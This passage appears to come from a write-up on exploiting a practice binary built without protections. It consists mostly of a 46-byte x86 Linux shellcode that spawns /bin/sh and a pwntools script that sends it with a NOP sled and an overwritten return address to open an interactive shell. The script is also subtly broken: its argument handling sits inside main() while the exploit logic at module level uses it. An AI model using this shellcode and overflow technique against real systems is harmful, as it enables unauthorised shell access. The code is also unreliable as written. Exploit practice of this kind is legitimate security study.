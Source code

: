 In the end I used this one, since it honestly doesn't make much of a difference at the moment:

    46bytes: \x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68


The quick'n'dirty pwntools script:

```python
#!/usr/bin/env python

import argparse
import sys
from pwn import *
from pwnlib import *

context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/vuln_no_prots')


def main():
    parser = argparse.ArgumentParser(description="pwnerator")
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

executable = './binary/vuln_no_prots'
payload = '\x90'*222

# shellcode 46 bytes
# 268 bytes - 46 bytes = length of nop sled
payload += '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b'
payload += '\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'

payload += '\x20\xcd\xff\xff' # stack


if args.dbg:
    r = gdb.debug([executable, payload], gdbscript="""
            b *main
            continue""",
            )
else:
    r = process([executable, payload])
    r.interactive()

if __name__ == '__main__':
    main()
    sys.exit(0)
```
